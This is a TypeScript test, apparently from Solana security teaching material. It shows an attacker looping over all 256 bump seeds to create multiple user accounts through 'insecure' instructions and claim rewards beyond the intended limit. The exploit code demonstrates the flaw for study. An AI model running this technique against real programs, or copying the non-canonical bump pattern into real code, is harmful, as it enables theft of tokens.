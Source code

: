```typescript
it("Attacker can claim more than reward limit with insecure instructions", async () => {
  const attacker = Keypair.generate();
  await safeAirdrop(attacker.publicKey, provider.connection);
  const ataKey = await getAssociatedTokenAddress(mint, attacker.publicKey);

  let numClaims = 0;

  for (let i = 0; i < 256; i++) {
    try {
      const pda = createProgramAddressSync(
        [attacker.publicKey.toBuffer(), Buffer.from([i])],
        program.programId,
      );
      await program.methods
        .createUserInsecure(i)
        .accounts({
          user: pda,
          payer: attacker.publicKey,
        })
        .signers([attacker])
        .rpc();
      await program.methods
        .claimInsecure(i)
        .accounts({
          user: pda,
          mint,
          payer: attacker.publicKey,
          userAta: ataKey,
        })
        .signers([attacker])
        .rpc();

      numClaims += 1;
    } catch (error) {
      if (error.message !== "Invalid seeds, address must fall off the curve") {
        console.log(error);
      }
    }
  }

  const ata = await getAccount(provider.connection, ataKey);

  console.log(
    `Attacker claimed ${numClaims} times and got ${Number(ata.amount)} tokens`,
  );

  expect(numClaims).to.be.greaterThan(1);
  expect(Number(ata.amount)).to.be.greaterThan(10);
});
```
